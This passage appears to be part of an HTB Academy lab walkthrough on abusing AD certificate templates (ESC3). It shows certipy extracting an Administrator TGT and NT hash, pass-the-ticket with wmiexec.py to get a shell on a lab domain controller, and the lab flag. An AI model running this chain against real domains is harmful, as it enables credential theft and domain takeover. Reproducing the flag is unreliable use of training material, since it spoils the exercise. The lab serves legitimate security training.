 Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `2b576acbe6bcfda7294d6bd18041b8fe`:

Code: shell

```shell
certipy auth -pfx administrator.pfx -domain lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy auth -pfx administrator.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

With the TGT for the `Administrator` user attained, students need to `pass-the-ticket` with `wmiexec.py` to gain remote code execution on `LAB-DC.lab.local`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
lab\administrator
```

When reading the contents of the file `C:\Users\haris\Desktop\flag.txt`, students will attain the flag `HTB{ESC3_EKU}`:

Code: cmd

```cmd
more "C:\Users\haris\Desktop\flag.txt"
```

```
C:\>more "C:\Users\haris\Desktop\flag.txt"

HTB{ESC3_EKU}
```

